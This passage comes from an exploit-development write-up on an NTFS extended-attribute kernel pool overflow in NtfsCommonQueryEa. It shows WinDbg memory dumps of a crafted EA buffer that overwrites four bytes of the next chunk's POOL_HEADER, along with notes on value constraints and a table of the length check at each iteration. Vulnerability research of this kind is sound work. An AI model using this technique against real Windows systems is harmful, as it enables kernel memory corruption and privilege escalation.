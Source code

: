 ```
1: kd> pc
Ntfs!NtfsCommonQueryEa+0x2bf:
fffff803`0cb8bd0f e8ec5df5ff      call    Ntfs!memcpy (fffff803`0cae1b00)

1: kd> p
Ntfs!NtfsCommonQueryEa+0x2c4:
fffff803`0cb8bd14 eb87            jmp     Ntfs!NtfsCommonQueryEa+0x24d (fffff803`0cb8bc9d)

1: kd> db ffffd889349859c0 l180
ffffd889`349859c0  00 00 16 03 4e 74 46 45-00 00 00 00 00 00 00 00  ....NtFE........
ffffd889`349859d0  9c 00 00 00 00 0f 81 00-55 53 45 52 2e 43 4f 4d  ........USER.COM
ffffd889`349859e0  4d 45 4e 54 33 32 31 00-54 68 69 73 20 69 73 20  MENT321.This is 
ffffd889`349859f0  61 20 63 6f ff 6d 65 6e-74 31 32 33 41 41 41 41  a co.ment123AAAA
ffffd889`34985a00  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985a10  46 46 46 46 41 41 41 41-42 42 42 42 43 43 43 43  FFFFAAAABBBBCCCC
ffffd889`34985a20  44 44 44 44 45 45 45 45-46 46 46 46 47 47 47 47  DDDDEEEEFFFFGGGG
ffffd889`34985a30  48 48 48 48 4a 4a 4a 4a-4b 4b 4b 4b 4c 4c 4c 4c  HHHHJJJJKKKKLLLL
ffffd889`34985a40  4d 4d 4d 4d 4e 4e 4e 4e-4f 4f 4f 4f 50 50 50 50  MMMMNNNNOOOOPPPP
ffffd889`34985a50  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985a60  01 02 03 04 05 06 07 08-00 00 00 00 a8 00 00 00  ................
ffffd889`34985a70  00 0f 8d 00 55 53 45 52-2e 43 4f 4d 4d 45 4e 54  ....USER.COMMENT
ffffd889`34985a80  32 32 32 00 54 68 69 73-20 69 73 20 61 20 63 6f  222.This is a co
ffffd889`34985a90  ff 6d 65 6e 74 31 32 33-41 41 41 41 42 42 42 42  .ment123AAAABBBB
ffffd889`34985aa0  43 43 43 43 44 44 44 44-45 45 45 45 46 46 46 46  CCCCDDDDEEEEFFFF
ffffd889`34985ab0  47 47 48 48 48 48 49 49-49 49 4a 4a 41 41 41 41  GGHHHHIIIIJJAAAA
ffffd889`34985ac0  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985ad0  46 46 46 46 47 47 47 47-48 48 48 48 4a 4a 4a 4a  FFFFGGGGHHHHJJJJ
ffffd889`34985ae0  4b 4b 4b 4b 4c 4c 4c 4c-4d 4d 4d 4d 4e 4e 4e 4e  KKKKLLLLMMMMNNNN
ffffd889`34985af0  4f 4f 4f 4f 50 50 50 50-01 02 03 04 05 06 07 08  OOOOPPPP........
ffffd889`34985b00  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985b10  00 00 00 00 00 00 00 00-00 02 05 00 41 43 00 54  ............AC.T
ffffd889`34985b20  41 41 41 41 4e 70 41 74-00 00 00 00 00 00 00 00  AAAANpAt........        // <- Overflowing four bytes into the POOL_HEADER of the next chunk
ffffd889`34985b30  b0 9b 50 2c 89 d8 ff ff-b0 9b 50 2c 89 d8 ff ff  ..P,......P,....
```

And we did overflow four bytes (`AAAA`) into the `POOL_HEADER` of the adjacent chunk. I have to say, that I reconstructed this part after I already had a successful exploit. 
The overall process to achieve it was not as straight forward as this might have looked like.

We needed to just overflow four bytes, different lengths of EA were not deemed valid by the kernel and also the overflown four bytes had to be arbitrary values, remember the EA names must be valid ASCII and we prefer to use non-ascii characters to simplify the exploitation when taking control of the next chunks `POOL_HEADER`.

This all might have been a bit rough to understand without having reversed the invovled functions and not having stepped through it in a debugger yourself, so here is a table to aid your understanding.

|Iteration|out_buf_len|block_Size|padding|if statement|
|-|-|-|-|-|
|1.|0x143|0x99|0x00|`if (0x99<(uint)(0x143-0x00))`|
|2.|0xaa|0xa5|0x03|`if (0xa5<(uint)(0xaa-0x03))`|
|3.|0x02|0x10|0x03|`if (0x10<(uint)(0x2-0x03))`|
